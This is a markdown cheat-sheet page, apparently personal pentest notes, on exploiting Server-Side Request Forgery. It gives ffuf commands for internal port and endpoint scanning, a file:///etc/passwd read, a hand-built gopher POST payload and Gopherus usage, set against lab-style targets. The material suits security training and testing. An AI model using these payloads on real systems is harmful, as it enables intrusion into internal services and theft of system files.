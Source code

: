 ```yaml
---
layout: default
title: SSRF
permalink: /Web/ssrf/
---
```


# Server-Side Request Forgery (SSRF)
This type of vulnerability occurs when an attacker can manipulate a web application into sending unauthorized requests from the server, because the web application fetches additional resources from a remote location based on user-supplied data, such as a URL.<br>
The following URL schemes are commonly used in the exploitation of SSRF vulnerabilities:
- http:// and https://: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network.
- file://: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI).
- gopher://: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases.

## Confirming SSRF
- Supply a URL pointing to our system to the web aaplication, while we are listening with e.g. netcat.
- To determine, whether the HTTP response reflects the response, we can point the web application to itself, e.g. `http://127.0.0.1/index.php`.
If we see the HTML code in the response, the SSFR is not blind.

## Enumerating the System
We can do this using a fuzzer like ffuf.
```
seq 1 10000 > ports.txt
```
```
ffuf -w ./ports.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "<response_identifier_for_closed_port>"
```
*Note: First check the error message in case of a closed port to apply the `-fr` regex filter correctly.*

## Accessing Restricted Endpoints
First determine the web server's response when we access a non-existing page. We should also find the correct extension of the files as we can see in the `$extension` variable.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.$extension&date=2024-01-01" -fr "<response_identifier_for_non_existing_page>"
```
## Local File Inclusion (LFI)
We can attempt to read local files from the file system using the `file://` URL scheme. E.g. by supplying the URL `file:///etc/passwd`

## The gopher Protocol
We can use SSRF to access restricted internal endpoints, but we are restricted to GET requests as there is no way to send a POST request with the http:// URL scheme. <br>
Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves by URL encoding the request, e.g.
```
POST /login.php HTTP/1.1
Host: <url>
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

password=admin
```
Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:
```
gopher://<url>:80/_POST%20/...[SNIP]
```
Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter dateserver, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a Malformed URL error. After URL encoding the entire gopher URL one more time, we can finally send the following request:
```
POST /index.php HTTP/1.1
Host: <ip>
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//<url>%3a80/_POST%2520/...[SNIP]
```
*Note: We can use the gopher protocol to interact with many internal services, not just HTTP servers.*

### Gopherus
We can utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. To run the tool, we need a valid Python2 installation. 
```
python2.7 gopherus.py
```
Example:
```
python2.7 gopherus.py --exploit smtp
```

## Blind SSRF
In many SSRF vulnerabilities, the response is not directly displayed to us.

### Detection
We can identify blind SSRF with the same method as mentioned earlier (supplying a URL to a system under our control and setting up a netcat listener).

### Enumeration
We might be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports or sometimes the web application responds with a distinguishable text for closed ports. <br>
If the error message is different for existing and non-existing files, we can use the same technique to identify existing files on the filesystem.



